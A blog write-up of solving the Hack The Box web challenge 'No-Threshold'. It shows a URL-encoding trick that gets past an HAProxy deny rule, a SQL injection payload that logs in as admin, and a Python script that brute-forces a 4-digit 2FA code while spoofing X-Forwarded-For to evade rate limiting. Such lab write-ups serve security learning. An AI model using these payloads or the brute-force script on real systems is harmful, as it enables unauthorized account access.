 ```yaml
---
title: 'Write-Up of a Web challenge From HTB: No-Threshold'
date: '2023-12-17'
tags: ['Web Exploitation']
draft: false
summary: 'writeup detailing the solving process of the No-Threshold web challenge from HACK THE BOX.'
---
```


## Web Challenge from Hack The Box

##### Challenge level:- Medium
##### Challenge Description:
Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩


#### **Website:**

Upon starting the challenge on HackTheBox, we are given a URL to visit furthermore, we are also given the source code of the vulnerable application to download.
Upon visiting the web application, it became apparent that it functioned as an online shop where the ability to make purchases was restricted solely to logged-in users.

![logged_only.png](/static/images/logged_only.png)

navigating to the /auth/login page : 

![forbidden_access.png](/static/images/forbidden_access.png)


the response was   `403 Forbidden` indicating that  the request is forbidden by administrative rules.
Examining the source code, particularly focusing on the HAProxy configuration file `haproxy.cfg`.

![haproxyconfig.png](/static/images/haproxyconfig.png)
  
The `http-request deny if { path_beg /auth/login }` configuration in HAProxy is a directive that denies access to any HTTP request whose path begins with `/auth/login`.
After numerous attempts to understand how to handle this restriction, I discovered that URL encoding was adequate for bypassing it.
URL-encoding of `auth`=`%61%75%74%68`


![urlencode.png](/static/images/urlencode.png)
  
Upon entering the login page, my subsequent action was to attempt to log in.
Inspecting the code handling the login process:

![444444444444444444444444.png](/static/images/444444444444444444444444.png)

the `login` function uses the function `query_db` to query the database which takes a SQL  query as a parmeter.
the SQL query used to retrieve a user seems to be vulnerable.Using this payload (`testsq' UNION ALL SELECT  username, password FROM users WHERE username = 'admin `) ,I was able to login as an admin.

URL-Encoding(`testsq' UNION ALL SELECT  username, password FROM users WHERE username = 'admin `)\
==  `%74%65%73%74%73%71%27%20%55%4e%49%4f%4e%20%41%4c%4c%20%53%45%4c%45%43%54%20%20%75%73%65%72%6e%61%6d%65%2c%20%70%61%73%73%77%6f%72%64%20%46%52%4f%4d%20%75%73%65%72%73%20%57%48%45%52%45%20%75%73%65%72%6e%61%6d%65%20%3d%20%27%61%64%6d%69%6e`


![elmoudir.png](/static/images/elmoudir.png)

Once  getting logged , I was redirected to a 2fa code verification page.
according to the login function ,once logged ,the function `set_2fa_code(4)` is called to  generate a random 4-digit Two-Factor Authentication (2FA)  code  and set it in the uwsgi cache valid for 5 minutes. 


![2fa.png](/static/images/2fa.png)

In this scenario, a viable solution could involve employing a brute-force attack, particularly since the target number is limited to a 4-digit length.
While employing Burp Intruder (with attack mode: `sniper`) , the first few requests were successful, but the rest resulted in a 429 status error code.

Upon revisiting the HAProxy configuration, I identified the cause.

![429_statuscode.png](/static/images/429_statuscode.png)

this HAProxy configuration assure if a client makes more than 20 requests in a short timeframe, they will be denied access with a 429 status code. 
An important thing to mention is that the information used to identify clients is taken from the `X-Forwarded-For` header.

That's why I wrote a python script that brute force the 2fa code and changing
the `X-Forwarded-For` every 4 requests.

```python
import requests
from concurrent.futures import ThreadPoolExecutor
def load_wordlist(wordl):
	with open(wordl,'r') as wor:
	return wor.read().splitlines()
	  
def send_requests(codes_2fa,n):
	url='http://188.166.175.58:30948/auth/verify-2fa'
	headers={	
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',	
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',	
	'Accept-Encoding': 'gzip, deflate, br',	
	'Content-Type': 'application/x-www-form-urlencoded',	
	'Content-Length': '13',	
	'Origin': 'http://188.166.175.58:30948',	
	'Connection': 'close',	
	'Referer': 'http://188.166.175.58:30948/auth/verify-2fa',	
	'Upgrade-Insecure-Requests': '1',	
	'Sec-Fetch-Dest': 'document',	
	'Sec-Fetch-Mode': 'navigate',	
	'Sec-Fetch-Site': 'same-origin',	
	'Sec-Fetch-User': '?1',
	}
	
	base_ip='192.168.'
	current_ip_suffix=[1,1]	
	with ThreadPoolExecutor(max_workers=100) as executor:
		futures=[]	
		for i,code_2fa in enumerate(codes_2fa,start=1):
			ip=base_ip+str(current_ip_suffix[0])+'.'+str(current_ip_suffix[1])
			future=executor.submit(send_request,ip,code_2fa,headers,url)
			futures.append(future)		
			if i% n ==0:
				current_ip_suffix[1]+=1			
			if current_ip_suffix[1]>254:
				current_ip_suffix[1]=1
				current_ip_suffix[0]+=1			
			if current_ip_suffix[0]>254:
				current_ip_suffix=[1,1]		
		for future in futures:
			future.result()
			
def send_request(ip,code_2fa,headers,url):
	headers['X-Forwarded-For']=ip	
	data={'2fa-code':str(code_2fa)}	
	response=requests.post(url,headers=headers,data=data)
	if 'Invalid 2FA Code!' not in response.text:	
		print(f'IP :{ip},2FA:{code_2fa}:{response.text}')
  

if __name__=='__main__':
my_wordlist='/home/lwess/Downloads/SecLists-master/Fuzzing/4-digits-0000-9999.txt'
codes_2fa=load_wordlist(my_wordlist)
n=4
send_requests(codes_2fa,n)
```


Running this python script :


![flag2.png](/static/images/flag2.png)

# **Summary:**

The `No-Threshold` web challenge presented by Hack The Box was an exceptional experience. This distinctive challenge centers on a misconfiguration in HAProxy that enables unauthorized access through URI encoding. The journey unfolds by gaining admin privileges through SQL injection exploitation and culminates in overcoming the 2FA-code check through a brute-force attack. Successfully solving the challenge requires chaining together all identified vulnerabilities to ultimately obtain the flag




